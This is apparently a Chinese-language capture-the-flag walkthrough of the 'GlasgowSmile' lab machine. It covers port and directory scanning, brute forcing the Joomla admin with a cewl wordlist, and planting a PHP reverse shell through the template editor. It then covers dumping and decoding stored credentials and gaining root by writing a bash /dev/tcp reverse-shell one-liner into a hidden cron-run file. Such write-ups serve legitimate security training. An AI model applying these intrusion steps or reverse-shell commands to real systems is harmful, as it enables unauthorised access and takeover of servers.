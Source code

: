 ## GlasgowSmile



## 端口扫描

````shell

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 67:34:48:1f:25:0e:d7:b3:ea:bb:36:11:22:60:8f:a1 (RSA)
|   256 4c:8c:45:65:a4:84:e8:b1:50:77:77:a9:3a:96:06:31 (ECDSA)
|_  256 09:e9:94:23:60:97:f7:20:cc:ee:d6:c1:9b:da:18:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)

````

## 目录扫描

```
扫描到了joomla的目录，对joomla目录简单目录枚举发现了额robots.txt
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```



## 后台cms爆破

```
用 cewl http://192.168.202.139/joomla -w dict.txt收集字典，对后台administrator目录的后台页面进行爆破，最终得到凭据joomla:Gotham
```



## joomla模板写入反弹shell

```shell
Extensions->Templates->Protostar Details and Files->New file创建一个php文件，写入反弹shell

Editing file "/shell.php" in template "protostar".提示了路径，在template/protostar/shell.php

nc -lvnp 4444

然后去到http://192.168.202.139/joomla/templates/protostar/shell.php

成功得到shell
```

## 提权

> 搜索网站配置文件configuration.php

```
public $user = 'joomla';
public $password = 'babyjoker';

得到数据库账号密码
```

> 搜索数据库
>
> ```
> +----+---------+------------+---------+----------------------------------------------+
> | id | type    | date       | name    | pswd                                         |
> +----+---------+------------+---------+----------------------------------------------+
> |  1 | Soldier | 2020-06-14 | Bane    | YmFuZWlzaGVyZQ==                             |
> |  2 | Soldier | 2020-06-14 | Aaron   | YWFyb25pc2hlcmU=                             |
> |  3 | Soldier | 2020-06-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |
> |  4 | Soldier | 2020-06-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |
> |  6 | Soldier | 2020-06-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ |
> |  7 | Soldier | 2020-06-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |
> +----+---------+------------+---------+----------------------------------------------+
> ```
>
> 得到rob凭据
>
> ```
> rob:???AllIHaveAreNegativeThoughts???
> ```
>
> 对rob家目录凯撒加密文件进行解密
>
> ```
>  STMzaG9wZTk5bXkwZGVhdGgwMDBtYWtlczQ0bW9yZThjZW50czAwdGhhbjBteTBsaWZlMA==
>  得到abner的凭据 
>  
>  abner:I33hope99my0death000makes44more8cents00than0my0life0
>  
> ```
>
> 对隐藏压缩文件进行解密
>
> ```shell
> find / -writable -type f 2>/dev/null | grep -v /proc | grep -v /sys
> 
> 发现可疑文件/var/www/joomla2/administrator/manifests/files/.dear_penguins.zip
> 
> 当前目录无法解压，拷贝到/tmp中
> 
> 得到penguins的凭据scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
> 
> ```
>
> find提权尝试
>
> ```shell
> ./find . -exec /bin/sh -p \; -quit
> 多次尝试依旧失败
> 
> 发现还有隐藏文件.trash_old，尝试写入反弹shell
> 
> bash -c "bash -i &>/dev/tcp/192.168.202.128/4444 0>&1"
> 
> 等待后提权成功。。
> 
> ```
>
> 
















